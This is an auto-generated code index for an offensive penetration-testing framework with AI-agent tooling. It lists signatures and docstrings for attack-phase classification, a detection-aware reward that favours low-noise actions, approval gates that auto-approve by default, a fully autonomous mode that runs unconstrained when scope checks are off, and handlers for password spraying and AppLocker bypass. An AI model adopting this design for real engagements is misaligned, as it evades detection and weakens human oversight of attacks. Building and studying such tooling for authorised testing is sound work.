recent successes/failures in this phase * relevant GTFOBins binaries * relevant MITRE techniques*

**Classes:**
- `ParquetDB` (line 244) `class ParquetDB` - *Parquet-backed session knowledge base + generic parquet query engine.*

**Functions:**
- `_build_cmd2_category_map` (line 146) `def _build_cmd2_category_map(lazyown_py)` - *Parse lazyown.py with regex to build command→phase map.
Requires no import — safe to call from any context.*
- `_stable_id` (line 178) `def _stable_id(start, cmd, args, dest_ip)` - *Generate a stable 16-char hex ID from row fields.*
- `_classify_row` (line 203) `def _classify_row(command, args, phase_hint)` - *Return {category, success, outcome, reward, confidence, tier, reason}.*
- `verify_model_integrity` (line 892) `def verify_model_integrity(model_path, encoder_path, hash_path)` - *Verify SHA256 integrity of classifier model and encoder files.

Args:
    model_path: Path to the joblib model file.
    encoder_path: Path to the JSON encoder file.
    hash_path: Path to the stored hash manifest (classifier.sha256).

Returns:
    True if both files match their stored hashes, False otherwise.*
- `_slim` (line 930) `def _slim(row)` - *Return compact view of a session row for MCP context.*
- `get_pdb` (line 948) `def get_pdb(lazyown_dir)`
- `main` (line 961) `def main()`

**Methods:**
- `__init__` (line 295) `def __init__(self, lazyown_dir)`
- `_load_session` (line 307) `def _load_session(self)` - *Load existing session_knowledge.parquet or return empty DataFrame.*
- `sync` (line 316) `def sync(self, csv_path)` - *Ingest sessions/LazyOwn_session_report.csv into session_knowledge.parquet.

New rows are enriched with id/category/success/outcome.
Existing rows (matched by id) are preserved — their manual annotations
(success, category) are NOT overwritten.

Returns the number of NEW rows added.*
- `annotate` (line 405) `def annotate(self, row_id, success, category, outcome)` - *Patch a row in session_knowledge.parquet by its id.
Only supplied fields are updated.  Returns True if found.*
- `annotate_rich` (line 434) `def annotate_rich(self, row_id, output, finding_type, target_service, target_port, campaign_id, success, category, outcome)` - *Full annotation after real execution: stores output snippet + all metadata.
Use this instead of annotate() from the auto_loop for richer training data.*
- `query_session` (line 490) `def query_session(self, phase, target, success_only, limit)` - *Query session_knowledge.parquet.

phase:        filter by category column (e.g. "recon", "scanning")
target:       filter by destination_ip
success_only: only return rows where success == True
limit:        max rows returned*
- `query_knowledge` (line 526) `def query_knowledge(self, keyword, parquet_name, columns, limit)` - *Search for keyword across one or all parquets in parquets/.

parquet_name: stem of the parquet file (e.g. "binarios", "techniques").
              If None, searches all parquets.
columns:      restrict search to these columns (default: all string columns).
Returns dict {parquet_stem: [matching rows...]}.*
- `query_atomic` (line 576) `def query_atomic(self, keyword, mitre_id, platform, scope, has_prereqs, complexity, limit, include_command)` - *Structured query over the enriched Atomic Red Team catalogue
(parquets/techniques_enriched.parquet).

Falls back to query_knowledge("techniques", keyword) if the enriched
parquet is not yet built.

Parameters
----------
keyword      : free-text search over name + description + keyword_tags
mitre_id     : exact or prefix (T1059 matches T1059, T1059.001, …)
platform     : linux | windows | macos | freebsd | cloud
scope        : local | remote | elevated | any
has_prereqs  : True → only tests needing prereqs; False → no prereqs
complexity   : low | medium | high
limit        : max results (default 10)
include_command : add command_preview to each result*
- `context_for_phase` (line 630) `def context_for_phase(self, phase, target, limit)` - *Return a rich context dict for MCP reasoning:

{
  "phase":             "recon",
  "target":            "10.10.11.78",
  "successful_cmds":   [{"command": ..., "args": ..., "start": ...}, ...],
  "failed_cmds":       [...],
  "gtfobins_relevant": [...],   # from binarios.parquet
  "mitre_techniques":  [...],   # from techniques.parquet
  "lolbas_relevant":   [...],   # from lolbas_index.parquet
  "summary":           "3 recon successes, 1 failure. Top commands: ..."
}*
- `stats` (line 729) `def stats(self)`
- `list_parquets` (line 743) `def list_parquets(self)`
- `train_classifier` (line 748) `def train_classifier(self, min_rows)` - *Train a lightweight RandomForest classifier on session_knowledge.parquet.

Features: command name (hashed), first arg token (hashed), category label.
Target:   success (bool).

The trained model is saved to parquets/classifier.pkl.
Returns a dict with {accuracy, n_train, n_test, model_path, feature_importance}.

Auto-called by sync() when the parquet grows by more than 200 annotated rows.
Requires: scikit-learn (pip install scikit-learn)*
- `predict_success` (line 843) `def predict_success(self, command, category)` - *Use the trained classifier to estimate probability of success.
Returns float 0.0–1.0 or None if no model exists.*

#### `lazyown_permissions.py`
**Path:** `skills/lazyown_permissions.py`
**File Doc:** *LazyOwn Permission System — Deny-First Rule Evaluation (Claude Code style)  Deny rules ALWAYS win over allow rules. Modes: plan | default | accept_edits | auto | dont_ask | bypass_permissions*

**Classes:**
- `PermissionMode` (line 18) `class PermissionMode(Enum)`
- `PermissionRule` (line 29) `class PermissionRule`
- `PermissionSystem` (line 91) `class PermissionSystem` - *Deny-first rule evaluator with persistent JSON rule store.

Rule evaluation order:
  1. Hard-coded always-deny patterns (catastrophic commands)
  2. Read-only tool bypass (never blocked by mode)
  3. User deny rules (wins over allow)
  4. User allow rules
  5. Mode default (dont_ask → deny; others → ask)*

**Methods:**
- `to_dict` (line 36) `def to_dict(self)`
- `__init__` (line 103) `def __init__(self, sessions_dir)`
- `_load` (line 113) `def _load(self)`
- `_save` (line 124) `def _save(self)`
- `_audit` (line 132) `def _audit(self, tool, decision, reason, args)`
- `add_rule` (line 145) `def add_rule(self, tool_pattern, action, condition, description)`
- `remove_rule` (line 151) `def remove_rule(self, tool_pattern, action)`
- `set_mode` (line 157) `def set_mode(self, mode)`
- `list_rules` (line 162) `def list_rules(self)`
- `evaluate` (line 167) `def evaluate(self, tool_name, arguments)` - *Returns (decision, reason).
decision: "allow" | "deny" | "ask"*
- `_matches` (line 219) `def _matches(self, rule, tool_name, args)`
- `metrics` (line 237) `def metrics(self)` - *Aggregate audit log into per-decision and per-tool counts.*
- `status_text` (line 279) `def status_text(self)`

#### `lazyown_policy.py`
**Path:** `skills/lazyown_policy.py`
**File Doc:** *LazyOwn Policy Engine ===================== Four-tier cascading outcome classifier with reward-based transition learning.  Reads sessions/LazyOwn_session_report.csv to bootstrap from historical data, classifies command outcomes through a configurable cascade:  Tier 1  — shell exit code (fast, low confidence) Tier 2a — regex heuristics on output (fast, medium confidence) Tier 2b — local Ollama small model (slow, higher confidence) Tier 3  — local Ollama large model as fallback (slow, higher confidence) Tier 4  — interactive operator prompt (authoritative, manual)  Each completed step receives a reward scalar derived from its category and outcome.  Transitions between states are counted in a persistent table. The policy engine uses that table, plus a set of hand-coded override rules, to recommend the next action category.  Usage: python3 skills/lazyown_policy.py bootstrap python3 skills/lazyown_policy.py analyze \\ --target 10.0.0.1 --command lazynmap --args "-sV 10.0.0.1" \\ --exit-code 0 --output "22/open 80/open" python3 skills/lazyown_policy.py recommend --target 10.0.0.1 python3 skills/lazyown_policy.py report*

**Classes:**
- `Config` (line 54) `class Config` - *Single source of truth for all tunable parameters and file paths.*
- `ActionCategory` (line 131) `class ActionCategory(StrEnum)` - *Semantic category of a LazyOwn command execution.*
- `OutcomeType` (line 146) `class OutcomeType(StrEnum)` - *Outcome of a classified command execution.*
- `ClassificationResult` (line 306) `class ClassificationResult` - *Output of a single classifier tier.*
- `StepRecord` (line 330) `class StepRecord` - *A single classified command execution within an episode.*
- `EpisodeRecord` (line 347) `class EpisodeRecord` - *A sequence of classified steps against a common target.*
- `IOutputClassifier` (line 372) `class IOutputClassifier(ABC)` - *Abstract base for all classifier tiers.*
- `ExitCodeClassifier` (line 389) `class ExitCodeClassifier(IOutputClassifier)` - *Tier 1: derive outcome from the shell exit code alone.

A zero exit code implies success but carries limited information about
the category, hence confidence is intentionally capped below the
acceptance threshold so richer tiers are always attempted first.*
- `HeuristicClassifier` (line 434) `class HeuristicClassifier(IOutputClassifier)` - *Tier 2a: regex-based pattern matching on command output.

Checks ordered success patterns first, then failure patterns.
Returns UNKNOWN when no pattern exceeds a minimum match quality.*
- `_OllamaClassifierBase` (line 487) `class _OllamaClassifierBase(IOutputClassifier)` - *Shared HTTP call and response parsing logic for Ollama-backed tiers.*
- `OllamaSmallClassifier` (line 588) `class OllamaSmallClassifier(_OllamaClassifierBase)` - *Tier 2b: classification via the configured small local model.*
- `OllamaLargeClassifier` (line 598) `class OllamaLargeClassifier(_OllamaClassifierBase)` - *Tier 3: classification via the configured large local model as fallback.*
- `UserInteractiveClassifier` (line 608) `class UserInteractiveClassifier(IOutputClassifier)` - *Tier 4: request manual classification from the operator.

Used only when all automatic tiers are inconclusive and the pipeline
was constructed with interactive=True.*
- `CascadeClassifier` (line 657) `class CascadeClassifier` - *Runs classifier tiers in order and stops at the first result whose
confidence meets or exceeds Config.min_confidence_to_accept.

Retains the highest-confidence partial result in case all tiers
stay below the threshold.*
- `DetectionRiskAssessor` (line 701) `class DetectionRiskAssessor` - *Wraps the DetectionOracle to provide detection probability for a command.

Lazily imports modules.detection_oracle so that the oracle's sigma rule
catalog does not load unless this class is instantiated.  This preserves
the fast startup behaviour of lazyown_mcp.py.

Single Responsibility: detection probability query only.
Dependency Inversion: callers receive this via constructor injection.*
- `RewardCalculator` (line 754) `class RewardCalculator` - *Converts (ActionCategory, OutcomeType) pairs to scalar reward values,
optionally applying a detection-risk penalty when a DetectionRiskAssessor
is provided.

Detection penalty rule
----------------------
When detection probability >= 0.70 (high risk), the reward for a successful
action is zeroed out.  This forces the policy engine to prefer lower-noise
paths over high-value but high-visibility actions.

Failure rewards are unaffected by detection probability — the agent must
still learn that failed actions carry a negative signal.*
- `CSVSessionReader` (line 843) `class CSVSessionReader` - *Reads LazyOwn_session_report.csv and converts each row to a StepRecord
using heuristic classification (no output or exit code available for
historical data).*
- `IEpisodeStore` (line 899) `class IEpisodeStore(ABC)` - *Abstract persistence layer for episode records.*
- `JSONLEpisodeStore` (line 915) `class JSONLEpisodeStore(IEpisodeStore)` - *Persists each episode as one JSON line in a .jsonl file keyed by target.

The file is read and rewritten on every mutating call.  This is acceptable
given the expected cardinality of targets in a pentest engagement.*
- `TransitionTable` (line 979) `class TransitionTable` - *Persistent frequency table of observed (from_state → next_category) transitions.

State strings are formatted as "category:outcome" (e.g. "recon:success").
The table is written to disk after every update.*
- `OverrideRule` (line 1042) `class OverrideRule` - *A hand-coded transition override that fires when recent session history
matches a specific sequence of states.*
- `PolicyEngine` (line 1097) `class PolicyEngine` - *Produces a ranked list of recommended next action categories for a target.

Override rules are evaluated first against a sliding window of recent states
and prepended to the list derived from transition table frequencies.*
- `SessionClassificationPipeline` (line 1194) `class SessionClassificationPipeline` - *Main entry point for processing a completed command execution.

Runs the cascade classifier, computes the reward, persists the step,
and updates the transition table with the observed state change.*
- `PolicyAdvisor` (line 1262) `class PolicyAdvisor` - *Entry point for querying next-action recommendations for a target.*
- `LazyOwnPolicyIntegration` (line 1294) `class LazyOwnPolicyIntegration` - *Convenience facade for use by lazyown_mcp.py or any other LazyOwn component.

Provides a stable two-method API so callers remain decoupled from the
internal cascade and storage details.*
- `ApprovalDecision` (line 1326) `class ApprovalDecision(StrEnum)` - *Outcome of a single ApprovalGate.request call.*
- `ApprovalRequest` (line 1335) `class ApprovalRequest` - *Value object describing one human-in-the-loop request.

Attributes:
    approval_id: Stable identifier used to resolve the request later.
    target: Engagement target the command will run against.
    phase: Engagement phase that triggered the gate (exploit, privesc...).
    command: LazyOwn command line about to execute.
    reason: Short rationale shown to the operator.
    created_ts: ISO-8601 UTC timestamp of creation.*
- `ApprovalOutcome` (line 1356) `class ApprovalOutcome` - *Result returned by ApprovalGate.request.*
- `IApprovalSink` (line 1375) `class IApprovalSink(ABC)` - *Persistence/notification contract for approval requests.

Implementations are responsible for making a request visible to a human
(collab UI, stdin prompt, ticketing system, ...) and for retrieving any
resolution later via :meth:`resolution_for`.*
- `FileApprovalSink` (line 1392) `class FileApprovalSink(IApprovalSink)` - *Persist approvals to sessions/engagement_approvals.jsonl.

Resolutions are appended as additional records with the same approval_id
and a non-pending status. resolution_for picks the latest non-pending
record for the id so the daemon can poll without holding file handles.*
- `BroadcastApprovalSink` (line 1455) `class BroadcastApprovalSink(IApprovalSink)` - *Publish approvals through the engagement narrator/collab fabric.

Delegates persistence to a FileApprovalSink and additionally narrates
the request so teammates connected to /collab/ see the pending decision
in real time. Resolution is delegated back to the file sink.*
- `StdinApprovalSink` (line 1503) `class StdinApprovalSink(IApprovalSink)` - *Interactive sink that asks the operator on stdin when a TTY is attached.

The sink only triggers when sys.stdin is a TTY. It writes a prompt,
reads a single line, and returns the matching ApprovalOutcome.
Falls back to a pending state when no TTY is available or input fails.*
- `CompositeApprovalSink` (line 1556) `class CompositeApprovalSink(IApprovalSink)` - *Fan-out announces to every sink; resolution picks the first answer.

Order matters: faster channels (stdin) come first so an operator who
answers at the prompt resolves the request before the daemon polls
the slow file sink.*
- `ApprovalGate` (line 1606) `class ApprovalGate` - *Human-in-the-loop gate consulted by the EngageOrchestrator.

Reads ``payload.json[auto_approve]`` at request time (never cached) so
operators can flip the value with ``set auto_approve false`` between
steps without restarting the daemon.

- auto_approve truthy (default) : every request returns APPROVED.
- auto_approve false            : requests in gated phases announce
                                  through the sink and poll up to
                                  ``poll_seconds`` for a decision. When
                                  the deadline expires the gate returns
                                  DENIED so the daemon falls back to a
                                  safer alternative instead of running
                                  an unsupervised exploit.
- phase not in _GATED_CATEGORIES: APPROVED without prompting.

SOLID:
  S — owns the policy decision only; persistence and notification live
      in the injected sink.
  O — gated categories are pulled from ActionCategory + a small string
      set; extend via a subclass that overrides ``_is_gated``.
  D — depends on the IApprovalSink interface, not on file or HTTP code.*
- `ScopeBoundAutoGate` (line 1820) `class ScopeBoundAutoGate` - *Headless approval gate backing the fully autonomous engage mode.

Drop-in replacement for :class:`ApprovalGate` that never blocks on a
human decision. Every request resolves immediately from the authorized
scope declared in ``payload.json``:

- scope empty OR ``scope_enforcement`` is ``off`` : APPROVED. The scope
  guard is dormant, so unattended autonomy runs unconstrained.
- target inside scope                             : APPROVED.
- target outside scope, enforcement ``warn``      : APPROVED, with a
  rationale flagging the out-of-scope target for the narrator/audit log.
- target outside scope, enforcement ``enforce``   : DENIED. This is the
  single fail-closed boundary unattended autonomy must keep — the
  engagement's legal authorization limit.

The payload is read at request time (never cached) so an operator can
tighten scope with ``scope enforce`` mid-run and have the next step
honour it.

SOLID:
  S — owns only the scope-versus-target decision; no I/O beyond reading
      the payload it is configured with.
  L — honours the same ``request`` signature and ``ApprovalOutcome``
      return type as :class:`ApprovalGate`, so ``EngageOrchestrator``
      consumes either interchangeably.
  D — the scope predicate is injected via ``in_scope_fn`` so the gate is
      unit-testable without loading ``cli.scope_guard``.*
- `HistoryBootstrapper` (line 1922) `class HistoryBootstrapper` - *One-shot importer that reads LazyOwn_session_report.csv and populates
the episode store and transition table from historical session data.*

**Functions:**
- `infer_category` (line 267) `def infer_category(command, args)` - *Return the ActionCategory best matching the command and its arguments.*
- `_default_sleep` (line 1721) `def _default_sleep(seconds)` - *Thin wrapper around time.sleep for ApprovalGate injection in tests.*
- `_load_scope_guard` (line 1739) `def _load_scope_guard()` - *Load ``cli/scope_guard.py`` directly from its file path (cached).

The scope guard is pure standard library, but importing it through the
``cli`` package triggers ``cli/__init__.py`` which pulls the full cmd2
command stack. Loading the module file in isolation keeps this gate
dependency-light and side-effect free. The loaded module is registered
in ``sys.modules`` before execution so ``@dataclass`` under
``from __future__ import annotations`` can resolve its own type
namespace, and the result is cached across calls.

Returns:
    The loaded ``scope_guard`` module.

Raises:
    ImportError: When the module spec or loader cannot be built.
    OSError: When the module file cannot be read.*
- `_default_in_scope` (line 1779) `def _default_in_scope(target, entries)` - *Return whether *target* is inside *entries*, failing closed on error.

Backed by ``cli.scope_guard.target_in_scope`` loaded in isolation. When
the scope guard cannot be loaded the predicate returns ``False`` so an
unverifiable scope check denies an out-of-scope step under ``enforce``
rather than attacking an unauthorized host.

Args:
    target: The active target (IP address or hostname).
    entries: Normalized authorized scope entries.

Returns:
    ``True`` when the target is authorized by at least one entry.*
- `_normalize_scope` (line 1800) `def _normalize_scope(entries)` - *Normalize raw payload scope entries into a clean tuple.

Delegates to ``cli.scope_guard.normalize_scope`` and falls back to a
conservative string strip when the guard cannot be loaded.

Args:
    entries: Raw ``payload.json[scope]`` value (typically a list).

Returns:
    A tuple of non-empty, stripped scope entries.*
- `_setup_logging` (line 1960) `def _setup_logging(cfg)`
- `_cmd_bootstrap` (line 1970) `def _cmd_bootstrap(cfg, _args)` - *CLI handler: index session history into the episode and transition stores.*
- `_cmd_analyze` (line 1977) `def _cmd_analyze(cfg, args)` - *CLI handler: classify one command execution and print the result.*
- `_cmd_recommend` (line 1991) `def _cmd_recommend(cfg, args)` - *CLI handler: print next-action recommendations for a target.*
- `_cmd_report` (line 2012) `def _cmd_report(cfg, _args)` - *CLI handler: print a summary table of all episodes.*
- `main` (line 2036) `def main()` - *Parse CLI arguments and dispatch to the appropriate command handler.*

**Methods:**
- `default` (line 82) `def default(cls)` - *Construct configuration anchored to this file's repository root.*
- `ollama_url` (line 123) `def ollama_url(self)` - *Full URL for the Ollama generate endpoint.*
- `unknown` (line 317) `def unknown(cls, tier)` - *Produce a result indicating the tier could not classify.*
- `to_dict` (line 357) `def to_dict(self)` - *Serialise to a plain dict suitable for JSON encoding.*
- `from_dict` (line 362) `def from_dict(cls, d)` - *Deserialise from a dict produced by to_dict.*
- `classify` (line 376) `def classify(self, command, args, output, exit_code)` - *Classify the outcome of one command execution.*
- `classify` (line 401) `def classify(self, command, args, output, exit_code)` - *Return a low-confidence result based solely on the exit code.*
- `classify` (line 444) `def classify(self, command, args, output, exit_code)` - *Scan output for known success or failure signatures.*
- `__init__` (line 496) `def __init__(self, cfg, model, tier_name)`
- `_build_prompt` (line 503) `def _build_prompt(self, command, args, output, exit_code)` - *Construct the classification prompt for the model.*
- `_call_ollama` (line 525) `def _call_ollama(self, prompt)` - *POST a generate request to Ollama and return the parsed response dict.*
- `_parse_response` (line 540) `def _parse_response(self, data, fallback)` - *Extract a ClassificationResult from the raw Ollama response.*
- `classify` (line 570) `def classify(self, command, args, output, exit_code)` - *Send the command context to Ollama and parse the JSON reply.*
- `__init__` (line 591) `def __init__(self, cfg)`
- `__init__` (line 601) `def __init__(self, cfg)`
- `classify` (line 616) `def classify(self, command, args, output, exit_code)` - *Prompt the operator and return their authoritative verdict.*
- `__init__` (line 666) `def __init__(self, cfg, interactive)`
- `classify` (line 677) `def classify(self, command, args, output, exit_code)` - *Return the first sufficiently confident result, or the best available.*
- `__init__` (line 715) `def __init__(self)`
- `_get_oracle` (line 718) `def _get_oracle(self)`
- `assess_probability` (line 733) `def assess_probability(self, command, args, category)` - *Return detection probability in [0.0, 1.0].
Returns 0.0 when the oracle is unavailable (fail-open for rewards).*
- `is_high_risk` (line 746) `def is_high_risk(self, command, args, category)` - *Return True when detection probability meets or exceeds the threshold.*
- `__init__` (line 773) `def __init__(self, cfg, risk_assessor)`
- `calculate` (line 783) `def calculate(self, category, outcome)` - *Return the reward integer for the given (category, outcome) pair.
Detection risk is NOT applied here — use calculate_with_detection()
when command context is available.*
- `calculate_with_detection` (line 798) `def calculate_with_detection(self, category, outcome, command, args)` - *Return (reward, detection_probability) for the given execution.

When detection_probability >= 0.70 and outcome is SUCCESS, the reward
is forced to zero to discourage noisy techniques.  This implements the
detection-aware reward shaping described in the architecture.

Parameters
----------
category:   ActionCategory of the command
outcome:    OutcomeType of the execution
command:    The command name (for detection oracle lookup)
args:       Command arguments (for detection oracle lookup)

Returns
-------
(reward: int, detection_prob: float)*
- `__init__` (line 850) `def __init__(self, cfg)`
- `read` (line 855) `def read(self)` - *Parse the CSV and return all classifiable rows as StepRecord instances.*
- `append_step` (line 903) `def append_step(self, step)` - *Add a step to the episode for its target, creating the episode if needed.*
- `load_all` (line 907) `def load_all(self)` - *Load every stored episode.*
- `get_episode` (line 911) `def get_episode(self, target)` - *Return the episode for the given target, or None.*
- `__init__` (line 923) `def __init__(self, cfg)`
- `append_step` (line 927) `def append_step(self, step)` - *Upsert the step into its target's episode and persist.*
- `load_all` (line 947) `def load_all(self)` - *Deserialise all episodes from the .jsonl file.*
- `get_episode` (line 963) `def get_episode(self, target)` - *Return the episode for target, or None if not found.*
- `_write_all` (line 970) `def _write_all(self, episodes)`
- `__init__` (line 987) `def __init__(self, cfg)`
- `record` (line 993) `def record(self, from_state, to_category, outcome)` - *Increment the counter for the given transition and persist.*
- `query` (line 1003) `def query(self, from_state)` - *Return (next_category, success_rate, total_count) tuples for the given
from_state, filtered by min_transition_count and sorted by success rate
descending.

Always reloads from disk so that external edits (policy_transitions.json)
and concurrent writes from pipeline._transitions take effect immediately.*
- `_load` (line 1024) `def _load(self)`
- `_save` (line 1032) `def _save(self)`
- `__init__` (line 1107) `def __init__(self, cfg, transitions)`
- `recommend` (line 1111) `def recommend(self, recent_steps)` - *Return up to top_k dicts with keys: category, reason, confidence, source.*
- `_apply_overrides` (line 1162) `def _apply_overrides(self, recent_states)` - *Return (category, reason, priority) for every triggered override rule.*
- `_default_fallback` (line 1171) `def _default_fallback(self, current_state)` - *Fall back to the standard kill-chain order when no data is available.*
- `__init__` (line 1202) `def __init__(self, cfg, interactive)`
- `process` (line 1210) `def process(self, target, command, args, output, exit_code, timestamp)` - *Classify, reward, store, and return a StepRecord for the given execution.*
- `__init__` (line 1267) `def __init__(self, cfg)`
- `advise` (line 1272) `def advise(self, target)` - *Return the policy engine's recommendations for the given target.*
- `episode_summary` (line 1277) `def episode_summary(self, target)` - *Return a high-level summary dict for the target's episode.*
- `__init__` (line 1302) `def __init__(self, cfg)`
- `on_command_complete` (line 1307) `def on_command_complete(self, target, command, args, output, exit_code)` - *Classify a completed command and record it in the episode store.*
- `get_recommendations` (line 1318) `def get_recommendations(self, target)` - *Return ranked next-action recommendations for the target.*
- `is_approved` (line 1365) `def is_approved(self)` - *True when the gate authorised execution.*
- `is_denied` (line 1370) `def is_denied(self)` - *True when the gate denied execution.*
- `announce` (line 1384) `def announce(self, request)` - *Publish the request so operators can see and resolve it.*
- `resolution_for` (line 1388) `def resolution_for(self, approval_id)` - *Return the latest resolution for the request or None if pending.*
- `__init__` (line 1400) `def __init__(self, sessions_dir)`
- `path` (line 1405) `def path(self)` - *Absolute path of the underlying JSONL file.*
- `announce` (line 1409) `def announce(self, request)`
- `resolution_for` (line 1426) `def resolution_for(self, approval_id)`
- `__init__` (line 1463) `def __init__(self, narrator, file_sink)`
- `announce` (line 1471) `def announce(self, request)`
- `resolution_for` (line 1499) `def resolution_for(self, approval_id)`
- `__init__` (line 1513) `def __init__(self, stream)`
- `_is_interactive` (line 1517) `def _is_interactive(self)`
- `announce` (line 1523) `def announce(self, request)`
- `resolution_for` (line 1552) `def resolution_for(self, approval_id)`
- `__init__` (line 1564) `def __init__(self, sinks)`
- `announce` (line 1569) `def announce(self, request)`
- `resolution_for` (line 1576) `def resolution_for(self, approval_id)`
- `__init__` (line 1634) `def __init__(self, sink, payload_path, poll_interval_s, poll_timeout_s, sleep_fn)`
- `_auto_approve_enabled` (line 1654) `def _auto_approve_enabled(self)`
- `_is_gated` (line 1664) `def _is_gated(self, phase)`
- `request` (line 1667) `def request(self, target, phase, command, reason)` - *Return an ApprovalOutcome for the proposed execution.

Steps:
  1. If auto_approve is on, immediately return APPROVED.
  2. If the phase is not in the gated set, return APPROVED.
  3. Otherwise build an ApprovalRequest, announce it, and poll the
     sink until a decision or the timeout.*
- `__init__` (line 1850) `def __init__(self, payload_path, in_scope_fn)`
- `_read_payload` (line 1859) `def _read_payload(self)` - *Return the parsed payload, or an empty dict on any read error.*
- `request` (line 1866) `def request(self, target, phase, command, reason)` - *Return an ApprovalOutcome without ever prompting a human.

Args:
    target: Target the step will run against.
    phase: Engagement phase tag (recon, enum, exploit, ...).
    command: LazyOwn command line about to execute.
    reason: Optional caller rationale, retained for interface parity
        with :class:`ApprovalGate`.

Returns:
    APPROVED for every in-scope step and for every step when the
    scope guard is dormant; DENIED only for an out-of-scope target
    under ``enforce``.*
- `__init__` (line 1928) `def __init__(self, cfg)`
- `run` (line 1934) `def run(self)` - *Process all CSV rows and return the total number of steps indexed.*

#### `lazyown_session.py`
**Path:** `skills/lazyown_session.py`
**File Doc:** *LazyOwn Append-Only Session Transcripts (Claude Code style)  All writes are append-only JSONL. Lines are never modified. Compact boundaries mark where old content was summarized.  Usage: transcript = get_transcript()          # global singleton transcript.append("tool_use", {...}) transcript.append("tool_result", {...}) fork = transcript.fork()               # new session, no inherited permissions*

**Classes:**
- `SessionTranscript` (line 71) `class SessionTranscript` - *Append-only JSONL session transcript.

Each line is a JSON object:
    {"ts": "...", "type": "...", "uuid": "...", "data": {...}}

Types: user_prompt | tool_use | tool_result | compact_boundary |
       permission_decision | hook_event | system*

**Functions:**
- `_redact_sensitive` (line 47) `def _redact_sensitive(value)` - *Return ``value`` with known-sensitive keys redacted in a deep copy.

Walks dicts/lists/tuples recursively. Any value held under a key whose
lowercased name appears in ``_SENSITIVE_KEYS`` is replaced with
``[REDACTED]``. Scalars passed at the top level are returned unchanged
because there is no key context to evaluate; callers that supply raw
secrets should wrap them under a named field instead.*
- `get_transcript` (line 281) `def get_transcript(sessions_dir, session_id)` - *Return the active transcript singleton.
On first call, sessions_dir must be provided to initialize it.*
- `reset_transcript` (line 294) `def reset_transcript(sessions_dir, session_id)` - *Force a new transcript (e.g., after fork or session reset).*

**Methods:**
- `__init__` (line 82) `def __init__(self, sessions_dir, session_id)`
- `_init_meta` (line 90) `def _init_meta(self)`
- `append` (line 106) `def append(self, event_type, data)` - *Append a single event. Returns the event UUID.

Sensitive fields (passwords, tokens, hashes) are redacted before the
event is written to disk. The transcript file is created with
owner-only permissions (0600) atomically via ``os.open`` so secrets
never sit on disk in a world-readable state, even for the very
first write.*
- `get_recent` (line 143) `def get_recent(self, n)` - *Return the last n events.*
- `get_all` (line 161) `def get_all(self)`
- `count` (line 164) `def count(self)`
- `maybe_auto_compact` (line 174) `def maybe_auto_compact(self, threshold)` - *If event count since the last compact_boundary exceeds threshold,
generate a template summary of those events and write a new boundary.
Returns the new boundary's UUID or None if no compaction was needed.
Append-only: original events stay on disk.*
- `add_compact_boundary` (line 209) `def add_compact_boundary(self, summary, preserved_uuids)` - *Mark a compaction point. The summary replaces older events logically
but they remain on disk (append-only guarantee).*
- `fork` (line 227) `def fork(self, new_id)` - *Create a new transcript forked from this one.
Permissions are NOT inherited (security decision matching Claude Code).
Recent history IS copied for context continuity.*
- `status_text` (line 257) `def status_text(self)`

#### `mcp_generated_tools.py`
**Path:** `skills/mcp_generated_tools.py`
**File Doc:** *Auto-generated MCP tool handlers from command_index.json.  DO NOT EDIT BY HAND.  Re-generate with: python3 skills/mcp_tool_generator.py  This file is imported by lazyown_mcp.py to close the coverage gap between the 148 hand-written handlers and the 670+ CLI commands.*

**Functions:**
- `get_generated_tool_definitions` (line 659) `def get_generated_tool_definitions()` - *Return list[types.Tool] entries for all generated tools.*
- `register_all_generated_handlers` (line 684) `def register_all_generated_handlers(register_handler_fn, make_text_fn, run_lazyown_cmd_fn)` - *Register every generated handler via *register_handler_fn*.

Called by lazyown_mcp.py after its infrastructure is ready. Returns the count registered.*
- `_gen_EOF` (line 696) `def _gen_EOF(arguments, tool_name, _cmd)`
- `_gen_GET` (line 704) `def _gen_GET(arguments, tool_name, _cmd)`
- `_gen_OPTIONS` (line 712) `def _gen_OPTIONS(arguments, tool_name, _cmd)`
- `_gen_POST` (line 720) `def _gen_POST(arguments, tool_name, _cmd)`
- `_gen_acknowledgearp` (line 728) `def _gen_acknowledgearp(arguments, tool_name, _cmd)`
- `_gen_acknowledgeicmp` (line 736) `def _gen_acknowledgeicmp(arguments, tool_name, _cmd)`
- `_gen_aclpwn_py` (line 744) `def _gen_aclpwn_py(arguments, tool_name, _cmd)`
- `_gen_ad_ldap_enum` (line 752) `def _gen_ad_ldap_enum(arguments, tool_name, _cmd)`
- `_gen_adcs_check` (line 760) `def _gen_adcs_check(arguments, tool_name, _cmd)`
- `_gen_add2find` (line 768) `def _gen_add2find(arguments, tool_name, _cmd)`
- `_gen_addalias` (line 776) `def _gen_addalias(arguments, tool_name, _cmd)`
- `_gen_addcli` (line 784) `def _gen_addcli(arguments, tool_name, _cmd)`
- `_gen_addhosts` (line 792) `def _gen_addhosts(arguments, tool_name, _cmd)`
- `_gen_addspn_py` (line 800) `def _gen_addspn_py(arguments, tool_name, _cmd)`
- `_gen_addusers` (line 808) `def _gen_addusers(arguments, tool_name, _cmd)`
- `_gen_adgetpass` (line 816) `def _gen_adgetpass(arguments, tool_name, _cmd)`
- `_gen_adsso_spray` (line 824) `def _gen_adsso_spray(arguments, tool_name, _cmd)`
- `_gen_adversary` (line 832) `def _gen_adversary(arguments, tool_name, _cmd)`
- `_gen_adversary_yaml` (line 840) `def _gen_adversary_yaml(arguments, tool_name, _cmd)`
- `_gen_aes_pe` (line 848) `def _gen_aes_pe(arguments, tool_name, _cmd)`
- `_gen_ai_playbook` (line 856) `def _gen_ai_playbook(arguments, tool_name, _cmd)`
- `_gen_ai_toggle` (line 864) `def _gen_ai_toggle(arguments, tool_name, _cmd)`
- `_gen_aliass` (line 872) `def _gen_aliass(arguments, tool_name, _cmd)`
- `_gen_allin` (line 880) `def _gen_allin(arguments, tool_name, _cmd)`
- `_gen_alterx` (line 888) `def _gen_alterx(arguments, tool_name, _cmd)`
- `_gen_amass` (line 896) `def _gen_amass(arguments, tool_name, _cmd)`
- `_gen_android_apk` (line 904) `def _gen_android_apk(arguments, tool_name, _cmd)`
- `_gen_android_enum` (line 912) `def _gen_android_enum(arguments, tool_name, _cmd)`
- `_gen_apache_users` (line 920) `def _gen_apache_users(arguments, tool_name, _cmd)`
- `_gen_applocker_csc` (line 928) `def _gen_applocker_csc(arguments, tool_name, _cmd)`
- `_gen_applocker_installutil` (line 936) `def _gen_applocker_installutil(arguments, tool_name, _cmd)`
- `_gen_applocker_msbuild` (line 944) `def _gen_applocker_msbuild(arguments, tool_name, _cmd)`
